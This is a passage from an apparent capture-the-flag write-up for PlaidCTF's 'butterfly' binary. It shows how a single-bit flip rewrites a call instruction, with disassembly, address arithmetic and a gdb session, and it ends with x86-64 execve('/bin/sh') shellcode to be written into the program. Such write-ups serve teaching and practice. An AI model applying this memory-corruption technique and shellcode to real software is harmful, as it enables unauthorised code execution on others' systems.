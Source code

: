 ```bash
$ shellnoob --64 --intel -i --to-asm
opcode_to_asm selected (type "quit" or ^C to end)
>> e824feffff
e824feffff ~> Disassembly of section .text:

0000000000000000 <.text>:
   0:	e8 24 fe ff ff       	call   0xfffffffffffffe29

>> e864feffff
e864feffff ~> Disassembly of section .text:

0000000000000000 <.text>:
   0:	e8 64 fe ff ff       	call   0xfffffffffffffe69
```
The address that we target is one byte after the start of the `call` instruction:
`0x400837 + 1 = 0x400838`

It has to be multiplied by 8:
`0x400838 * 8 = 0x20041c0`

Now we need to control which bit is flipped in the targeted byte. With the python interpreter:

```python
>>> bin(0x24^0x64)
'0b1000000'
```

This is the sixth bit (we start at 0). If we send the number `0x20041c6` to the binary we should see the call change:

```bash
$ gdb -q butterfly
Reading symbols from butterfly...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/abe/ctf/plaidctf/butterfly/butterfly 
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
0x20041c6
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
^Z
Program received signal SIGTSTP, Stopped (user).
[snip]
gdb-peda$ x/i 0x400837
   0x400837 <main+175>:	call   0x4006a0 <_start+16>
```

## Insert shellcode here

Now that we can modify any other instruction, we can create a shellcode to execute a shell. It has to be done on instructions that are after the `call` that we modified to avoid executing a corrupted instruction in the process.

The shellcode will look like this:

```
xor rsi, rsi      ; zero out the argv pointer
mov rax, 59       ; set the syscall number
xor rdx, rdx      ; zero out the envp pointer
mov rdi, 0x400914 ; address of /bin/sh\
syscall
/bin/sh\0
```


[fgets]: http://man7.org/linux/man-pages/man3/fgets.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[r2]: http://www.radare.org/r/
[shellnoob]: https://github.com/reyammer/shellnoob